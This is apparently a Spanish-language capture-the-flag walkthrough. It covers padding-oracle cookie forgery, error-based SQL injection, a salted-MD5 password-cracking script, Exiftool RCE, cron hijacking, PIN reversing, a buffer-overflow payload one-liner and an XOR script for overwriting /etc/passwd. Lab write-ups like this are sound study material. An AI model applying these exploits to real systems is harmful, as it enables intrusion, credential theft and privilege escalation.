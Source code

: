 ## Tecnicas utilizadas
-   Padding Oracle Attack (Padbuster)
-   Padding Oracle Attack (Bit Flipper Attack - BurpSuite) [EXTRA]
-   Cookie Hijacking
-   SQL Injection (Generic UNION query) [SQLI] - Error Based
-   Breaking Password
-   Upload File - Abusing Exiftool (RCE)
-   DNS Hijacking (Abusing Cron Job)
-   Ghidra Binary Analysis
-   Reversing Code (Computing valid PIN)
-   Buffer overflow (Controlling the program and manipulating its flow to desired functions)
-   Abusing Decryption Function (XOR Trick) [Privilege Escalation]
## Procedimiento
- Padbuster para descifrar la cookie(*CBC - Bite flippling attack*)
![[Pasted image 20230205122709.png]]
- Una forma alternativa seria con burpsuite, registramos un usuario que sea similar a *Admin*, por ejemplo *bdmin*, pasamos la peticion de la pagina por burpsuite y mandamos la peticion al repeter para brute forcear la peticion. Selecionamos en Payload type -> Bit flipper. Format of original data -> Literal value. Y desactivamos el URL encoding de la ultima sección.
- Sqlinjetion en el url encontrado en logs, este es basado en error.
- Python3 Scriptiong ->
```python
#!/usr/bin/python3

import hashlib, pdb

# Agregamos el salt obtenido de la base de datos de cmsmsdb de la tabla sitepref_value
salt = '$salt'

# Contraseñas encontradas en la base de datos de cmsmsdb en la table cms_users
password = '$password'

# Diccionario con el que vamos a romper la contraseña
dictionary = '/path/to/wordlist'

f = open(dictionary, "rb")

for possible_pass in f.readline(): 
	
	possible_pass = possible_pass.strip()
	
	
	if hashlib.md5(salt.encode() + possible_pass).hexdigest() == password:
		print("[+] La password es %s" % possible_pass.decode())
		break

```
- Loguearnos en el nuevo panel de autentificacion descubierto.
- Explotar la version de Exiftool con el repositorio de github
- Nos aprovechamos de la tarea cron que ejecuta el script que usa bash contra una url 
- Analisamos el Binary encontrado en la ruta opt con Ghidra. Vamos a la funcion *Check Pin*, renemobramos las variables para que sea mas legible y entendible. Con gdb hacemos un dissas de la funcion *random* y por ultimo hacemos un break en **\*random+57**.
- Copiamos la funcion random, creamos un archivo y peguamos todo para tenermo en modo de traza.
- Python3 Scripting ->
```python
#!/usr/bin/python3

import ctypes
i = 0
local_c = $local_c

initial_local_c = $local_c

while (i < 10):
	
	local_c = local_c * 0x59 + 0x14
	i += 1

print(ctypes.c_int(local_c ^ initial_local_c).value)
	
	
```
- Creamos un patron con **Gef**
- Usamos `pattern offset $eip` y vemos cuantos characters son necesarios para desbordar el buffer.
- Como el NX esta habilitado,  no podemos hacer llamadas de sistema para ejecutar una shell. Asi que vamos por la funcion *encrypt* que esta en el binario, podemos desarmarla con `dissas encrypt` para posteriormente obtener su direccion(*El primer resultado*) creamos un patron con python que nos arroje las AAA correspondientes y al final podemos la direccion de la funcion *encrypt* `python3 -c 'print("A"*44 + "\x5b\x58\x55\x56 ")'`
- Creamos un script en python que nos encripte un archivo para que con el *XOR* de la funcion encrypt del binario, nos lo desencripte en texto claro donde nosotros queramos(*este caso /etc/passwd*)
```python

#!/usr/bin/python3

plaintext_file = "/path/to/file"
output_encrypted_file = "/path/to/output"

plaintext = open(plaintext_file, "rb")
output = open(output_encrypted_file, "wb")

for line in plaintext:
	output.write(bytes([line ^ 0x9b]))
```
- El archivo encriptado final, debe llamarse igual que el archivo al que queramos sustituir(*passwd*)